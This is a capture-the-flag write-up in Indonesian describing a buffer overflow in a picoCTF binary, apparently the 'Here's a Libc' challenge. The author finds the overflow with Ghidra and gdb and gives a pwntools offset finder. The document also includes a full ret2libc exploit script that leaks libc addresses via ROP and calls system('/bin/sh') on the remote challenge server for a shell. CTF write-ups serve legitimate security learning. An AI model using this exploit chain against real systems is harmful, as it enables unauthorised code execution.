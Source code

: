 # Write Up Here a Libc

Step pertama yang saya coba adalah dengan menjalankan program dengan connect ke remote server yang disediakan. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/14bdca32-f80e-4890-bba7-7003b082a89b">
</div>
</br>

Dari foto di atas, saya mengetahui bahwa program ini merubah input text yang dimasukkan oleh user menjadi uppercase di huruf yang ganjil dan lowercase di huruf yang genap.

Lalu, saya mencoba untuk membuka program dengan Ghidra. Pada fungsi **main**, saya mengetahui bahwa dia memanggil fungsi **do_stuff()** yang disimpan dalam do while.

<div align="center">
  <img src="https://github.com/user-attachments/assets/95b39820-4de7-47ac-b831-de0a515656be">
</div>
</br>

Berikut adalah fungsi **do_stuff()**:

<div align="center">
  <img src="https://github.com/user-attachments/assets/b38a0f05-93f1-4229-a819-50d661c9cafd">
</div>
</br>

Berdasarkan decompiled code fungsi **do_stuff()**, ada kemungkinan buffer overflow pada fungsi scanf pertama yang ini adalah input dari user dengan buffer 112 dari local_88. Lalu, pada for loop, huruf yang di convert_case hanya sampai < 100.

Saat saya mencoba input string random untuk mencoba buffer overflow, terjadi segmentation fault.

<div align="center">
  <img src="Screenshot 2024-11-28 021056](https://github.com/user-attachments/assets/c01e2b64-54ad-4c78-b61f-fb9b7ab44a79">
</div>
</br>

Selanjutnya saya mencoba untuk menjalankan di gdb dengan cara yang sama dengan foto di atas. Awalnya saya bingung karena sudah lebih banyak dari buffer (112) tapi nilai di rip belum berubah.

<div align="center">
  <img src="https://github.com/user-attachments/assets/e50750d4-2653-4911-b511-e9df98805054">
</div>
</br>

Karena saya skill issue dan bingung kenapa saat saya menggunakan **gdb gef** tidak berubah juga rip nya (mungkin payload nya salah atau kurang panjang) dan tidak menemukan offset, saya mencari write up di Youtube dan meminta bantuan ChatGPT. Berdasarkan GPT dan video di Youtube, saya akhirnya menggunakan **pwntools cyclic** untuk menemukan offset dari buffer overflow yang ingin dilakukan. Berikut code nya:

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)
context.binary = binary

p = process(binary)

payload = cyclic(200)
p.sendlineafter(b'WeLcOmE To mY EcHo sErVeR!', payload)

p.wait()
core = p.corefile

offset = cyclic_find(core.read(core.rsp, 4))
log.info(f"Offset found: {offset}")
```

Saya menjalankan scriptnya di kali linux karena di windows ternyata error dan harus di linux. Ini offsetnya:

<div align="center">
  <img src="https://github.com/user-attachments/assets/03b0e75b-3745-46fc-b81d-87cd27fa54e3">
</div>
</br>

Note: Saya ingin jujur ko, di step yang akan dijelaskan selanjutnya, saya mengikuti bantuan ChatGPT terutama dalam pembuatan script.

Selanjutnya, setelah mengetahui offset, saya mencari address dari fungsi-fungsi yang ada di libc. Tujuan akhir alamat yang ingin diambil adalah alamat fungsi system. Selain fungsi, string /bin/sh juga saya cari untuk menjalankan shell di remote server.

Saya dengan bantuan ChatGPT membuat script untuk eksploitasi.

```python
from pwn import *

# Konfigurasi Binary dan Libc
binary = './vuln_patched'  # Nama binary
libc_path = './libc.so.6'  # Nama file libc
elf = ELF(binary)
libc = ELF(libc_path)

# Alamat penting dari binary
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

# Offset dari buffer overflow
offset = 136

# Remote server
host = 'mercury.picoctf.net'
port = 49464

# Fungsi untuk leak alamat libc
def leak_libc_address(proc, func_got):
    log.info(f"Leaking {func_got} address...")
    rop = ROP(elf)
    rop.call(puts_plt, [func_got])  # Cetak alamat fungsi di GOT
    rop.call(main_addr)  # Kembali ke fungsi main untuk eksploitasi ulang
    
    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)
    leaked_address = u64(proc.recvline().strip().ljust(8, b'\x00'))
    log.success(f"Leaked {func_got} address: {hex(leaked_address)}")
    return leaked_address

# Fungsi eksploitasi untuk mendapatkan shell
def exploit(proc):
    # Leak libc puts address
    libc_puts = leak_libc_address(proc, puts_got)

    # Hitung base address libc
    libc_base = libc_puts - libc.symbols['puts']
    log.success(f"Libc base address: {hex(libc_base)}")

    # Hitung alamat "/bin/sh" dan system
    system_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

    log.info(f"System address: {hex(system_addr)}")
    log.info(f"/bin/sh address: {hex(bin_sh_addr)}")

    # ROP chain untuk mendapatkan shell
    rop = ROP(elf)
    rop.call(system_addr, [bin_sh_addr])

    payload = flat({offset: rop.chain()})
    proc.sendlineafter("WeLcOmE To mY EcHo sErVeR!", payload)

    # Berikan akses interaktif
    proc.interactive()

# Main program
if __name__ == "__main__":
    context.binary = elf
    p = remote(host, port)
    exploit(p)
```








